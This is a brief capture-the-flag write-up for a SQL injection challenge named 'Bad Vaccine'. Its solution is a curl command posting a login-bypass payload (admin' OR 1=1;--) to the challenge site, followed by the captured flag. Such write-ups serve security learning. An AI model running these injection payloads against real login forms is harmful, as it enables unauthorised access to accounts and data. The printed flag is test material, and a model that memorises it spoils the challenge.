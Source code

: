 # Bad Vaccine

**Challenge Type: SQL Injection**  
**Challenge Status: Solved**

## Challenge
Find out what are the bad vaccines and destroy them.  
http://vaccine.nypinfsecctf.tk/

## Solution
```bash
$ curl --no-progress-meter -X POST -d "username=admin' OR 1=1;--&password=username=admin' OR 1=1" https://vaccine.nypinfsecctf.tk | grep -i "NYP{.*}"

NYP{3z_sQL_iNJ3cTi0n}
```

## Ending Note
The organisers said that it's a very basic SQL Injection. And it is true as you see above.  
However, attempting to use `admin' #` will return you a Status 500 error.
